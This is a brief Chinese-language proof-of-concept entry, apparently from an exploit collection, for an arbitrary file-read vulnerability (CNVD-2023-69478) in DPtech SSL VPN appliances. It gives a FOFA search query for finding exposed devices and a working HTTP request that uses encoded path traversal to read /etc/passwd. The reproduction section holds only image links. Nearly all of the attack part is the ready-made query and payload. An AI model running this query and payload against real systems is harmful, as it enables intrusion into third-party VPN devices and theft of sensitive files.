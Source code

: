 ## 迪普DPTech VPN 任意文件读取 CNVD-2023-69478
杭州迪普科技股份有限公司DPtech SSL VPN存在任意文件读取漏洞，攻击者可利用该漏洞获敏感信息。

## 漏洞影响产品
杭州迪普科技股份有限公司DPtech SSL VPN

## fofa
```
title=="SSL VPN Service" && header="Dptech" || cert="DPtechCa"
```

## poc
```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: xxxxxxxxx
Cookie: SSLVPN_lang=1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
se
```
## 漏洞复现
![](./assets/780475ed2a4b528fe68184a4f665a7d1fe08f3.png)

![](./assets/7171140331ad9063b8e9a92e8161c325c0b418.png)
